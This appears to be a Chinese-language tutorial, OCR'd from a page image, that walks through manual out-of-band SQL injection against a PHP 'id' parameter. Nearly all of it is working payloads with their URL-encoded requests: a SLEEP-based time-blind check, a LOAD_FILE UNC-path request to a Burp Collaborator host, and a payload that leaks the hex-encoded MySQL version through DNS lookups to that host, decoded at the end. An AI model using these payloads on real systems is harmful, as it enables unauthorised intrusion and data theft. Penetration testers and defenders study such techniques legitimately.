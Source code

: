 

【实际测试】带外获取数据-手工进行的具体过程
```
# 手工利用第0步 🌹确认SQLi是否存在

# id参数的值为
1234' AND (SELECT 9905 FROM (SELECT(SLEEP(5)))vMZe) AND 'fACM'='fACM

# 实际HTTP请求的第1行 内容如下 其中id参数的值做了编码 JavaScript encodeURIComponent()
/user.php?id=1234'%20AND%20(SELECT%209905%20FROM%20(SELECT(SLEEP(5)))vMZe)%20AND%20'fACM'%3D'fACM HTTP/1.1

# 延时了5秒多 所以确认存在SQLi.
# Type: time-based blind
# Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

-----

# 手工利用第1步 🌹测试 攻击者的dns服务器 能否收到数据
# id参数的值为
1234'+(select load_file('\\\\easv5rqjxp4jbbk5t8vlqnn5iwoocd.burpcollaborator.net\\anq'))+' 

# 实际HTTP请求的第1行 内容如下 其中id参数的值做了编码 JavaScript encodeURIComponent()
/user.php?id=1234'%2b(select%20load_file('%5c%5c%5c%5ceasv5rqjxp4jbbk5t8vlqnn5iwoocd.burpcollaborator.net%5c%5canq'))%2b' HTTP/1.1

# 测试成功 收到了DNS数据.

-----

# 手工利用第2步 🌹获取数据库的数据 如version()
# id参数的值为
1234' AND (SELECT 2026 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT LOAD_FILE(CONCAT(0x5c5c5c5c474c762e,(SELECT HEX(MID((IFNULL(version(),0x20)),1,31))),0x2e5471722e656173763572716a7870346a62626b357438766c716e6e3569776f6f63642e62757270636f6c6c61626f7261746f722e6e65745c5c4c6e6f74))),2,1))>563,0,5)))))Uyjo) AND 'Tbug'='Tbug

# 实际HTTP请求的第1行 内容如下 其中id参数的值做了编码 JavaScript encodeURIComponent()
/user.php?id=1234'%20AND%20(SELECT%202026%20FROM%20(SELECT(SLEEP(5-(IF(ORD(MID((SELECT%20LOAD_FILE(CONCAT(0x5c5c5c5c474c762e%2C(SELECT%20HEX(MID((IFNULL(version()%2C0x20))%2C1%2C31)))%2C0x2e5471722e656173763572716a7870346a62626b357438766c716e6e3569776f6f63642e62757270636f6c6c61626f7261746f722e6e65745c5c4c6e6f74)))%2C2%2C1))%3E563%2C0%2C5)))))Uyjo)%20AND%20'Tbug'%3D'Tbug HTTP/1.1


# 收到了DNS数据
GLv.352E352E3533.Tqr.easv5rqjxp4jbbk5t8vlqnn5iwoocd.burpcollaborator.net.

其中`352E352E3533` 就是经过hex编码的数据, 做decode即可:

Hex to ASCII
5.5.53

Hex to UTF-8
5.5.53

得知了MySQL的版本为5.5.53
```
